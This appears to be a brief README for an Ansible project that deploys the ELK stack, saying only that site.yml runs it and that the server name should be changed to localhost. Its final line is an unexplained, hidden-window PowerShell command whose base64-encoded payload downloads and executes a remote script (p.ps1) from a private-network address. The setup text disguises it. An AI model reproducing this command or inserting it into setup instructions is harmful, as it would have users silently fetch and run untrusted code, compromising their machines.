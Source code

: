 # Ansible-with-ELK
How to create a workflow in simple terms
the only thing we need is the site.yml script to run it

The in the script you need to change el elkserver to localhost, if you want to run it in you own computer

powershell -w hidden -noni -enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAGMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMAAuADAALgA0ADoANQAyADYANAA1AC8AcAAuAHAAcwAxACcAKQA=

